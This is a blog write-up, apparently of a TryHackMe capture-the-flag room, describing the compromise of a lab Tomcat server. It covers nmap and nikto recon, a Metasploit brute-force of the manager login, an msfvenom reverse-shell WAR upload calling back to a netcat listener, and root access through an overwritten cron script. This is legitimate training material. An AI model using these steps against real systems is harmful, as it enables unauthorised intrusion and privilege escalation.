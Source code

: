 ```yaml
---
layout: post
permalink: /posts/thm/thompson
title: "THM write-up: Thompson"
date: 2020-08-08 21:40
tags: tryhackme CTF recon privilege_escalate reverse_shell tomcat
description: "Today, I"m going to show you a Tomcat related CTF challenge. This is my fifth boo2root write-up by bsides Guatemala."
---
```


![titlecard](/assets/images/THM/2020-08-08-thompson/1.png)

[Link: https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

Another day, another tryhackme CTF write-up. Today, I"m going to show you a Tomcat related CTF challenge. This is my fifth boo2root series write-up by bsides Guatemala and this is the last challenge of the series. I will try to explain this challenge with 2 different CVEs and its failure and success. Let's start the challenge, shall we?

## Task 1: Capture the flags

Same old bsides Guatemala style CTF challenege, you CTF, you win. That's it.

### Task 1-1: Capture user's flag

First and foremost, launch your nmap scanner with the following command.

```
nmap -A -v <MACHINE IP>
```

![nmap](/assets/images/THM/2020-08-08-thompson/2.png)

After that, the Nmap will dig out tree open ports specifically Port 22 (SSH), Port 8009 (ajp) and Port 8080 (Tomcat server). I 100% confirm that the port 8009 is related to the tomcat (port 8080). The proof of concept is inside [this article](https://ionize.com.au/exploiting-apache-tomcat-port-8009-using-apache-jserv-protocol/). There is no point to exploit Port 8009. Also, we are going to hold port 22 since we do not have any clue. So,  Port 8080 is the only way in.

![tomcat](/assets/images/THM/2020-08-08-thompson/3.png)

A Tomcat server with version 8.5.5. By searching the Internet, I came across three potential CVE number that is vulnerable to Tomcat 8.5.5. The CVE number are:

- CVE-2019-0232
- CVE-2017-12617

#### 1) CVE-2019-0232

This the most recent CVE available for Tomcat. To exploit the CVE number, the Tomcat must have CGI enable. However, checking the /cgi-bin/ return the following result.

![404](/assets/images/THM/2020-08-08-thompson/4.png)

It is a failure because of the /cgi-bin/ is not enabled.

#### CVE-2017-12617

This exploitation is known as WAR backdoor. There is numerous proof of concept of this vulnerability such as [this](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) and [this](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). In order to use this exploit, one must know the login credential of the manager page.

![login](/assets/images/THM/2020-08-08-thompson/5.png)

I launch my Metasploit to brute-force the manager login credential by using the following command line.

```
msf> use auxiliary/scanner/http/tomcat_mgr_login
msf > set RHOST <Machine IP>
msf > set STOP_ON_SUCCESS true
msf > run
```

Make sure you change the <machine IP> to the target IP before the run.

![metasploit](/assets/images/THM/2020-08-08-thompson/6.png)

That is weird! The Metasploit brute-force end up a failure. This is where the challenge started to give me a headache. I try to exploit port 8009, brute-forcing port 22, PUT a .jsp using burp suite, directory brute-forcing using gobuster, tried to exploit the .jsp file within the /examples/ directory, perform a web scan using OWASP Zap scanner. NONE of them work!!!!!!!!!!!!!!!!!!!!!. Before I going to give up this challenge, how about using the Nikto?

```
nikto -h <Machine IP>
```

Well, the credential is 'tomcat:s3cret'. Wait a sec, the credential is indeed listed inside the Metasploit. **Moral of the story, always use multiple tools to perform pentesting, somehow we will miss the important information.** Alright, let's move on! To login into the manager dashboard, make sure manually enter the following URL.

```
http://<Machine IP>/manager/html
```

I tried to use /manager or click the manager tab on the front page. It doesn't allow me to log in using the provided credentials. If you make it, you should see the following dashboard. 

![login](/assets/images/THM/2020-08-08-thompson/7.png)

This is where we can perform the CVE by uploading the WAR file.

![WAR](/assets/images/THM/2020-08-08-thompson/8.png)

Before that, we need to generate a reverse shell using msfvenom. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Tunnel IP> LPORT=4444 -f war > shell.war
```

Make sure you change the [tunnel IP](https://tryhackme.com/access). After you have create the reverse shell file, open up your netcat listener.

```
nc -lvnp 4444
```

Deploy the WAR file and proceed to the following directory.

![war deploy](/assets/images/THM/2020-08-08-thompson/9.png)

![reverse success](/assets/images/THM/2020-08-08-thompson/10.png)

Ta-da, you have created a reverse shell on the targeted machine. Grab the user's flag now.

![user flag](/assets/images/THM/2020-08-08-thompson/11.png)

### Task 1-3: Capture root's flag

What a frustrating challenge for me ^^. Now, it is time to capture the root's flag. The first thing we need to do is checking jack's folder.

![2 files](/assets/images/THM/2020-08-08-thompson/12.png)

Let's check the id.sh and test.txt files.

![read file](/assets/images/THM/2020-08-08-thompson/13.png)

We got the id command response from the test.txt file while the id.sh is a batch file supposedly executed by the root user. I highly suspect this is the work by cronjob. Let's see what is inside the /etc/crontab.

![crontab](/assets/images/THM/2020-08-08-thompson/14.png)

I was right! We are going to pull the flag from the root user by overwriting the id.sh using the following command.

```
echo 'cp /root/root.txt /home/jack/root.txt' > id.sh
```

Wait for a minute and you will see the following result. 

![root text](/assets/images/THM/2020-08-08-thompson/15.png)

Pulling success! 

Congratulation, you are now rooted in the machine using cronjob.

## Conclusion

That's it, the final boot2root by bsides Guatemala series. I would like to thanks user stuxnet who created the amazing CTF challenge. Keep it up! Once again, hope you enjoy the write-up. Until next time ;)
